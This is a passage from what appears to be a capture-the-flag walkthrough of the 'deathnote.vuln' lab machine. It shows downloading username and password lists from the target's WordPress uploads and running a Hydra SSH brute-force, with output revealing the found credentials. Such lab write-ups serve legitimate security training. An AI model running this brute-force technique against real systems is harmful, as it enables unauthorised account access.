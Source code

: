 ```bash
DOWNLOADED: 4612 - FOUND: 2
```

---

### Modifying Hosts File
To resolve the target IP address, it was added to the `/etc/hosts` file:

```bash
$ cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	kali
::1		localhost ip6-localhost ip6-loopback
ff02::1		ip6-allnodes
ff02::2		ip6-allrouters

10.0.2.6        deathnote.vuln
```

### File Retrieval
Files `user.txt` and `notes.txt` were located at the following URL, which may be useful for brute-forcing usernames and passwords:

```bash
$ wget http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/user.txt
```

```bash
$ wget http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/notes.txt
```

### Brute Force Attack
A brute force attack was conducted using Hydra with the retrieved files:

```bash
$ hydra -L user.txt -P notes.txt ssh://10.0.2.6
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-29

10:26:13
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 731 login tries (l:17/p:43), ~46 tries per task
[DATA] attacking ssh://10.0.2.6:22/
[STATUS] 268.00 tries/min, 268 tries in 00:01h, 465 to do in 00:02h, 14 active
[22][ssh] host: 10.0.2.6   login: l   password: death4me
[STATUS] 263.50 tries/min, 527 tries in 00:02h, 206 to do in 00:01h, 14 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-29 10:29:01
```
